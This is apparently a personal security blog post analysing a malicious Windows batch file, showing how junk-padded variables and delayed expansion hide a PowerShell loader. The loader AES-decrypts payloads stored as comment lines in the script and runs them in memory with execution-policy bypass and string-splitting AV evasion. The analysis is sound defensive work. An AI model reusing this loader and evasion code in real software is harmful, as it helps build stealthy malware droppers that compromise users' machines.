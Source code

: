 ```yaml
---
layout: post
title: Batch Script Obfuscation
subtitle: Obfuscation techniques seen in the wild
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/bat.png
share-img: /assets/img/bat.png
tags: []
---
```


Earlier this week, I was investigating a batch script that made its way onto someone's system. I enjoy deobfuscating files, so here are some things specific to (but maybe not exclusive to) batch file obfuscation that I saw.

Below is the first part of the batch file. Essentially what was going on was there was a bunch of junk data that was inserted between some variables / text. I replaced the real junk to make it more visible, but the original junk data was a lot more randomized and less apparent that it repeated. 
~~~
@echo off
set s=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%t%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%c%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set e=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%b%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set d=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%y%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set x=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%x%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%p%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%i%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set rah=%s% %e%%d%%x%
call %rah%
~~~

From there, if we trim it down, we get this

~~~
@echo off
set s=setlocal
set e=enab
set d=ledelayed
set x=expansion
set rah=s edx
call rah
~~~

Which further evaluates to

~~~
@echo off
setlocal enabledelayedexpansion
~~~

This was the first part of the obfuscation.


From here, it is obvious from the last line that there is something going on with powershell. If you also look at the top a bit, we also see -noprofile -windowstyle hidden -ep bypass -command, which is also very common in malicious powershell operations. Something else that is going on here, which is a key clue, is [System.Security.Cryptography.Aes]::Create(), which is a .NET constructor for creating AES-encrypted objects. So, the next section likely decrypts and runs a payload, but lets dive deeper first. Lastly, we some concatenated strings, aimed at evading static AV detection ('S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t')

The dollar sign, $, denotes a variable in powershell. We see many more gibberish strings immediately preceded by the dollar signs, which means that the variables have been obfuscated. In this example, it is not through encoding or encryption, but rather their intention is obfuscated. It would be trivial for a computer to execute this code, but tough for a human to understand what is going on. From here, it is, at least in my experience, a game of guessing and renaming variables to what you think they might be. If you have no idea where to begin at guessing though, no problem! I find it good to just name things whatever, like var_1, var_2, and so on.

~~~
set "zsexdrzsexdrzsexdrzsexdrzsexdr=set"
set "bhunjibhunjibhunjibhunjibhunji=!zsexdrzsexdrzsexdrzsexdrzsexdr!"
!bhunjibhunjibhunjibhunjibhunji! "biEKBNtmaExERuKwsVMLBRoxNfgdBOZZfTeqnDLUczJcuRjyEOeuFpygzSomIwMJHSwaSolxpsaaYOpbrOAoyGSBUXFzabmcAHQJTBmedCbxRtefrpoVznryBpCfsoZqPRtcTGrFKZCPftRwdYOascUUJKqkhXdFsgRIQhdfqGYthaiRzKcwUswHzkjXLHmIsJQolrhgvItOJteTIbStFwpjudZXnyNKuHNmURTsdITjBRKyhxwzrHpgWLffJkOoRVGuSmreBkaVDlUziIhbNFFbbFylVuDeDwuwqThpzjeXIrMuXaAmorLmsWnaBQoFiImpGRAJVwtzRXXoFZcjaLMPMboQCcMSJWVFGsuZkAXbhxnGN=-noprofile -windowstyle hidden -ep bypass -command $unceunceunceunceunceunceunec = '%~f0';	$qwertyqwertyqwertyqwertyqwerty=[System.Security.Cryptography.Aes]::Create();		$qwertyqwertyqwertyqwertyqwerty.IV=[System.Convert]::FromBase64String('1JvmIAo8jn8Quu7BilO+6w==');	$qwertyqwertyqwertyqwertyqwerty.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;	$qwertyqwertyqwertyqwertyqwerty.Key=[System.Convert]::FromBase64String('9PVEPxhrf9bAPo5nbYothLVgwj9qp8wjNqedVM0sNJg=');		$qwertyqwertyqwertyqwertyqwerty.Mode=[System.Security.Cryptography.CipherMode]::CBC;function decrypt_function($param_var){	$asdfgasdfgasdfgasdfgasdfg=$qwertyqwertyqwertyqwertyqwerty.CreateDecryptor();	$yuiopyuiopyuiopyuiopyuiop=$asdfgasdfgasdfgasdfgasdfg.TransformFinalBlock($param_var, 0, $param_var.Length);	$yuiopyuiopyuiopyuiopyuiop;}function execute_function($param_var,$param2_var){	$ghjklghjklghjklghjklghjkl=[System.Reflection.Assembly]::Load([byte[]]$param_var);	$zxcvbzxcvbzxcvbzxcvbzxcvb=$ghjklghjklghjklghjklghjkl.EntryPoint;	$zxcvbzxcvbzxcvbzxcvbzxcvb.Invoke($null, $param2_var);}$host.UI.RawUI.WindowTitle = $unceunceunceunceunceunceunec;$njimkonjimkonjimkonjimkonjimko = [type]::GetType('Syst'+'e'+'m'+'.I'+'O.F'+'i'+'l'+'e');$cvbnmcvbnmcvbnmcvbnmcvbnm = [type]::GetType('S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t');$plokmplokmplokmplokmplokm = $njimkonjimkonjimkonjimkonjimko::ReadAllText($unceunceunceunceunceunceunec);$ytrewytrewytrewytrewytrew = $cvbnmcvbnmcvbnmcvbnmcvbnm::NewLine;$poiuypoiuypoiuypoiuypoiuy = $plokmplokmplokmplokmplokm.Split($ytrewytrewytrewytrewytrew);$jhgfdjhgfdjhgfdjhgfdjhgfd = $poiuypoiuypoiuypoiuypoiuy;foreach ($vgybhuvgybhuvgybhuvgybhuvgybhu in $jhgfdjhgfdjhgfdjhgfdjhgfd) {	if ($vgybhuvgybhuvgybhuvgybhuvgybhu.StartsWith(':: '))	{		$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx=$vgybhuvgybhuvgybhuvgybhuvgybhu.Substring(3);		break;	}}$payloads_var=[string[]]$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx.Split('\');$payload1_var= decrypt_function ([Convert]::FromBase64String($payloads_var[0]));$payload2_var= decrypt_function ([Convert]::FromBase64String($payloads_var[1]));execute_function $payload1_var $null;execute_function $payload2_var (,[string[]] ('%*'));"
!bhunjibhunjibhunjibhunjibhunji! "ckgMzaltivLxuGAeCevHMWWHEdYyKliYXvbInLefrxEmnhjvzletlABeTtxDfCRNHZEDcZpGxHioaPbbHebBYQXCZdICsBNzMFcpjRABMdjjcBhBWPfScDsKoNuCAcJGRlPirXRNXderAmpuF="%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~

After som trial and error, and with the help of ChatGPT to guess some of the names, this is what i landed on

~~~
!delayed_var_2! "profile_var=-noprofile -windowstyle hidden -ep bypass -command $command = '%~f0';
$aesEncryptor=[System.Security.Cryptography.Aes]::Create();
$aesEncryptor.IV=[System.Convert]::FromBase64String('QUVTLUlW');
$aesEncryptor.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
$aesEncryptor.Key=[System.Convert]::FromBase64String('QUVTLUtleQ==');
$aesEncryptor.Mode=[System.Security.Cryptography.CipherMode]::CBC;
function decrypt_function($param_var){
$decryptor = $aesEncryptor.CreateDecryptor();
$decrypted_bytes = $decryptor.TransformFinalBlock($param_var, 0, $param_var.Length);
$decrypted_bytes;
}
function execute_function($param_var, $param2_var){
$assembly = [System.Reflection.Assembly]::Load([byte[]]$param_var);
$entry_point = $assembly.EntryPoint;
$entry_point.Invoke($null, $param2_var);
}
$host.UI.RawUI.WindowTitle = $payloadFilePath;
$fileType = [type]::GetType('System.IO.File');
$envType = [type]::GetType('System.Environment');
$payloadFileContents = $fileType::ReadAllText($payloadFilePath);
$newline = $envType::NewLine;
$lines = $payloadFileContents.Split($newline);
$lineArray = $lines;
foreach ($line in $lineArray) {
if ($line.StartsWith(':: ')) {
$payloadDataEncoded = $line.Substring(3);
break;
}
}
!delayed_var_2! "unknown"%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~
